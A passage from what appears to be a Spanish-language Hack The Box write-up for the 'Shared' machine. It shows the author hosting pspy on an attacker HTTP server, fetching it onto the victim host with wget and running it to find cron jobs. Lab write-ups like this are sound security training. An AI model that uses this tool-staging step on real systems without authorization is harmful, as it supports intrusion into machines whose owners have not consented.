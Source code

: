 Bueno para saber a mas detalle si esta pasando algo con esa ruta podemos ver tareas cron para esto podemos usar **pspy** <https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1>

Ahora lo vamos a transferir a la maquina victima

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.172 - - [13/Jun/2023 15:14:23] "GET /pspy64 HTTP/1.1" 200 -
```

```bash
james_mason@shared:/dev/shm$ wget http://10.10.14.12:80/pspy64
--2023-06-13 17:14:21--  http://10.10.14.12/pspy64
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy64'

pspy64                          100%[=======================================================>]   2.96M  37.8KB/s    in 62s     

2023-06-13 17:15:23 (49.1 KB/s) - 'pspy64' saved [3104768/3104768]

james_mason@shared:/dev/shm$ chmod +x pspy64 
james_mason@shared:/dev/shm$ 
```

Ahora lo vamos a ejecutar y ya vemos un proceso interesante 

![](/assets/images/htb-writeup-shared/web22.png)

![](/assets/images/htb-writeup-shared/web23.png)
